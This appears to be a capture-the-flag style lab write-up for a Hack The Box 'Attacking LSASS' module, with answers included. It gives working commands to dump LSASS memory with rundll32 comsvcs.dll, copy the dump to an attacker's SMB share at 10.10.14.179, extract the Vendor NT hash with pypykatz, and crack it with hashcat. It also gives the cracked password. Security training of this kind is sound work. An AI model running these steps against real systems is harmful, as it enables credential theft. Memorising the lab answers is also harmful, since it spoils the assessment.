 # Attacking LSASS

### What is the name of the executable file associated with the Local Security Authority Process?

lsass.exe

### Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

A file called `lsass.DMP` is created and saved in:

```powershell
C:\Users\htb-student\AppData\Local\Temp\lsass.DMP
```

OR&#x20;

**Finding LSASS PID in PowerShell**

```powershell
Get-Process lsass
#Creating lsass.dmp using PowerShell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

now we transfer it into our linux machine

```bash
#1
impacket-smbserver shared -smb2support /tmp/shared
#2
move C:\Users\htb-student\AppData\Local\Temp\lsass.DMP \\10.10.14.179\shared
```

Running Pypykatz

```bash
pypykatz lsa minidump lsass.DMP
== MSV ==
                Username: Vendor
                Domain: FS01
                LM: NA
                NT: 31f87811133bc6aaa75a536e77f64314
                SHA1: 2b1c560c35923a8936263770a047764d0422caba
                DPAPI: NA
```

now we try to crack vendor NT hash

```bash
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt  
31f87811133bc6aaa75a536e77f64314:Mic@123
```

```
Mic@123
```
